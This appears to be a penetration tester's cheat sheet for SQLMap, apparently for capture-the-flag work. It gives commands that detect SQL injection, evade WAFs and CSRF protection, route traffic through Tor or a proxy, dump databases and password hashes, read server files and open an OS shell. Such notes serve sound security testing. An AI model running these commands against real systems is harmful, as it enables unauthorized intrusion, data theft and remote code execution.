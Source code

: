 [[Injection/SQL Injection]]
- Find SQL injection vulnerabilities before executing SQLMap for PoC.
- Multi-threading can be bad for time-based data retrieval.
- Risk > 3 to enable 'OR' based injections
- Data retrieval sometimes doesn't work for UNION, TIME-BASED or BOOLEAN (--no-cast) might help.

Testing command
- [ ] --batch to allow 'Y' for everything
```bash
sqlmap -u 'http://example.com' --risk=3 --level=5 --threads=5 --batch
```
JSON + Complex request
```bash
sqlmap -r req.txt -p 'param1' -p 'param2'
```
### Defense Evasion
Bypass CSRF tokens
```bash
sqlmap -u 'http://example.com' --risk=3 --level=5 --threads=5 --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```
Randomize values
```bash
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```
Calculated Parameters
```bash
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5
```
Proxying
- [ ] List of proxy --proxy-file
- [ ] Tor: --tor
```bash
sqlmap -u 'http://example.com' --risk=3 --level=5 --threads=5 --batch --proxy="socks4://177.39.187.70:33283"
```
Skip WAF
```bash
sqlmap -u 'http://example.com' --risk=3 --level=5 --threads=5 --batch --skip-waf
```
Random user-agent
SQLMAP - User-agent: sqlmap/1.4.9 (http://sqlmap.org)
```bash
sqlmap -u 'http://example.com' --risk=3 --level=5 --threads=5 --batch --random-agent
```
Tamper Scripts
```bash
sqlmap -u 'http://example.com' --risk=3 --level=5 --threads=5 --tamper=between, randomcase
```
![](../../img/Pasted%20image%2020251027095038.png)
### Data Exfiltration
- [ ] Check Version (--banner)
- [ ] Check user and check admin (--current-user --is-dba) -> privilege to read files
- [ ] Check database (--current-db)
```bash
sqlmap -r req.txt --banner --current-user --current-db --is-dba
```
Database, Tables and Columns
- [ ] Dump all tables (--tables & require -D)
- [ ] Conditional (--where="name LIKE 'f%'")
- [ ] Dump all (--dump-all) & exclude system db (not interesting, --exclude-sysdbs)
```bash
sqlmap -r req.txt --dump -D database -T table1 -C column1,column2
```
Dumping schema
```bash
sqlmap -r req.txt --dump -D database --schema
```
Searching for data
```bash
sqlmap -r req.txt --search -T users
```
DB Users passwords
```bash
sqlmap -r req.txt --passwords
```

**Attack Escalation**
- [ ] Is database admin
Reading files
```bash
sqlmap -r req.txt --file-read "/var/www/html/flag.txt"
```
RCE
```bash
sqlmap -r req.txt --os-shell
```